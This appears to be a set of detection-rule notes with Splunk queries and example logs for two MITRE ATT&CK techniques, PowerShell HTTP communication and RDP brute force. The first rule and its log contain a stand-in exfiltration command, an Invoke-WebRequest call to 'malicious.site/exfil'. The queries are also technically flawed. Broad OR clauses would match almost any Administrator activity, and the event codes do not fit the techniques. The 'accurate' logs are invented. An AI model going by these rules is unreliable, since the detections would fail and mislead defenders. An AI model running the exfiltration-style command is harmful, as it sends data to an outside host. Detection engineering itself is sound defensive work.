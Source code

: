 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 21:40:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.104",
  "DestinationPort": "80"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 93"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 21:45:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 93",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.143",
  "DestinationPort": "3389"
}
```

---